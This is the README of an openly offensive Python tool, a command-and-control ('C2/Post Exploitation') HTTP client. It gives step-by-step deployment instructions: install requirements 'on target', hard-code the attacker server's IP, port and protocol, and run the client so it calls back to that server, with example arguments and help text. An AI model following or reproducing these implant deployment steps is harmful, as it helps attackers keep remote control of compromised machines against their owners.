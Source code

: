 # C2X-HTTP-Client-Py

[![Tool Category](https://badgen.net/badge/Tool/C2%20Client/black)](https://github.com/nxenon/c2x-http-client-py)
[![APP Version](https://badgen.net/badge/Version/Beta/red)](https://github.com/nxenon/c2x-http-client-py)
[![Python Version](https://badgen.net/badge/Python/3.X/blue)](https://www.python.org/download/releases/3.0/)
[![License](https://badgen.net/badge/License/GPLv2/purple)](https://github.com/nxenon/c2x-http-client-py/blob/master/LICENSE)

C2X-HTTP-Client-Py is client of [C2X-HTTP](https://github.com/nxenon/c2x-http) (C2/Post Exploitation) project in Python language.

Run
----
    You have to have requests python library installed on target:
    pip3 install -r requirements.txt
    First you should put server IP and server remote port and protocol on source code:
    in lines 151 & 152 & 153
    then run the code:
    python3 c2x-http-client.py


- If you have replaced the ip and port in source code you can run the code without any argument.
    - python3 c2x-http-client.py
- If you didn't replace the ip and port, or you want to connect to different server or port you can use arguments.
    - python3 c2x-http-client.py --ip 127.0.0.1 --port 54321 --protocol https
    
- Optional Arguments
    - --ip Remote_IP
    - --port Remote_Port
    - --protocol PROTOCOL

Help
----
    
    usage: c2x-http-client.py [-h] [--ip IP] [--port PORT] [--protocol http or https]
    
    optional arguments:
      -h, --help           show this help message and exit
      --ip IP              Server Remote IP [Default : replace_server_ip]
      --port PORT          Server Remote Port [Default : replace_server_port]
      --protocol PROTOCOL  Server Protocol [http or https] [Default : replace_server_protocol]